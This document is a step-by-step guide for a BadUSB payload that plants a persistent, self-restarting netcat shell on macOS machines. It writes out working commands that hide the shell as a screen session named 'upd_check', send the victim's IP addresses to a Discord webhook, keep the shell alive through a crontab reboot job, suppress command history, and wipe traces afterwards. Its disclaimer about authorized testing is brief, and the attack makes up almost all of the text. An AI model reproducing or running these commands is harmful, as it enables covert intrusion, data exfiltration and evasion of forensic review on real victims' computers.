 # **Mac Endless Reverse Shell**

### **Introduction**

This guide provides step-by-step instructions for setting up an interactive reverse shell on MacOS systems using **`nc`** (netcat). It is intended for educational purposes or authorized security testing only. Unauthorized access to computer systems is illegal and unethical. Please ensure you have proper authorization before attempting any actions described in this guide.

For additional commands and data on reverse shells, refer to the [HackTricks documentation](https://book.hacktricks.xyz/generic-methodologies-and-resources/shells/full-ttys#full-tty).

## **Setup Instructions**

---

### **1. Establishing the Reverse Shell on the Target Machine via BadUSB**

**Objective:** Start a reverse shell listener on the target machine as a background process using **`screen`**.

`unset HISTFILE; screen -dmS upd_check bash -c 'unset HISTFILE; set +o history; trap "pkill -P \$\$" SIGINT SIGTERM; while true; do rm -f /tmp/f; mkfifo /tmp/f; nc -l 9123 < /tmp/f | bash -i > /tmp/f 2>&1 & nc_pid=$!; (sleep 300 && kill -9 $nc_pid 2>/dev/null) & wait $nc_pid; done'`

**Description**:

- **`screen -dmS upd_check`**: Starts a detached screen session named "upd_check" to run the following command.
- **`bash -c '...'`**: Launches a Bash shell and executes the provided command within it.
- **`unset HISTFILE`**: Prevents Bash from saving command history to a file.
- **`set +o history`**: Disables command history for the current shell session.
- **`trap "pkill -P \$\$" SIGINT SIGTERM`**: Sets up a trap to kill any child processes spawned by the command upon receiving SIGINT or SIGTERM signals (e.g., Ctrl+C).
- **`while true; do ... done`**: Creates an infinite loop to continuously execute the following commands.
- **`rm -f /tmp/f`**: Removes any existing FIFO file named "/tmp/f".
- **`mkfifo /tmp/f`**: Creates a new FIFO (named pipe) file named "/tmp/f" for communication.
- **`nc -l 9123 < /tmp/f | bash -i > /tmp/f 2>&1 &`**: Sets up a netcat listener on port 9123, redirecting input/output to the FIFO file, and starts a Bash shell with interactive mode (-i).
- **`nc_pid=$!`**: Stores the process ID (PID) of the netcat listener.
- **`(sleep 300 && kill -9 $nc_pid 2>/dev/null) &`**: Initiates a background process to sleep for 300 seconds (5 minutes) and then forcibly terminates the netcat listener process to trigger automatic reconnection.
- **`wait $nc_pid`**: Pauses execution until the netcat listener process terminates.

Then, send the external and internal IP addresses of the machine to a Discord channel. Replace **`YOUR_DISCORD_CHANNEL_TOKEN`** with your token inside the Ducky Script:



`curl -X POST -H "Content-Type: application/json" -d "{\"content\": \"From Endless Reverse Shell BadUSB:\\nExternal IP: $(curl -s 'https://api.ipify.org')\\nInternal IP(s): $(ifconfig | grep -Eo 'inet (addr:)?([0-9]{1,3}\.){3}[0-9]{1,3}' | grep -v '127.0.0.1' | sed 's/inet addr://' | sed 's/inet //' | paste -sd ',' - | sed 's/,/, /g')\\n----------------------------------------\"}" "YOUR_DISCORD_CHANNEL_TOKEN"`

Not part of the Ducky Payload. For increased persistence, set the command as a crontab job (TCC permission is needed):


`@reboot /bin/bash -c 'unset HISTFILE; set +o history; trap "pkill -P \$\$" SIGINT SIGTERM; while true; do rm -f /tmp/f; mkfifo /tmp/f; (nc -l 9123 < /tmp/f | bash -i > /tmp/f 2>&1 || true) & nc_pid=$!; (sleep 300 && kill -9 $nc_pid 2>/dev/null || true) & wait $nc_pid; done'`

---

### **2. Configuring the Attacker's Machine**

**Objective:** Secure the reverse shell connection and prevent accidental disconnections.

- **Disable accidental interrupts:** Prevents the use of Ctrl+C from terminating the shell.

`stty intr ''  # Disable Ctrl+C`

- **Restore interrupt key:** Re-enables Ctrl+C functionality when needed.

`stty intr ^C # To reset`

- **Connecting:** Utilize **`rlwrap`** for a better shell experience when connecting to the target.

`rlwrap -r nc [TARGET_IP] 9123`

---

### **3. Managing the Session on the Victim's Machine**

**Objective:** Maintain stealth and control within the session.

- **Standard Shell Environment:** Enhances the shell for command execution without leaving history.
    
    `script -q /dev/null bash
    unset HISTFILE; set +o history && export PS1='\u@\h:\w\$'`
    
- **Executing Privileged Commands:** Executes commands as **`sudo`** without logging.
    
    `unset HISTFILE; set +o history && echo "password" | sudo -S whoami` 
    
- **Root Access:** Switch to root without command logging.
    
    `unset HISTFILE`
    

---

### **4. Cleanup on the Victim Machine**

**Objective:** Remove traces of the reverse shell session and terminate gracefully.

- **Command for cleanup processes that related to reverse shell:**

`nohup bash -c 'screen -S upd_check -X quit; sleep 3; screen -wipe; pkill -f "nc -l 9123"; ps aux | grep "[b]ash -i" | grep -v grep | awk "{print \$2}" | xargs -r kill -9; rm -f /tmp/f; rm -f ~/.bash_history' > /dev/null 2>&1 &`

- **Verification:** Confirm that all related processes are terminated and no listeners are active.

`ps aux | grep bash`

`screen -list`

`lsof -i :9123`

---

### **Important Note:**

The procedure incorporates an automatic re-establishment mechanism for the reverse shell connection every 5 minutes. This feature proves particularly valuable in scenarios where the reverse shell may be disrupted due to network instability or accidental closure of the initial connection. By utilizing a loop that periodically terminates the existing **`nc`** listener and initiates a new one, the command ensures that the attacker can regain access to the target machine without the need to redeploy the payload. This auto-reconnect functionality enhances the resilience of the reverse shell to disconnections and reinforces its persistence on the target machine, guaranteeing that temporary disruptions do not permanently sever the attacker's access.

### ***This procedure prioritizes operational discretion and effectiveness. Ensure you possess authorized access to the system before proceeding with this setup.***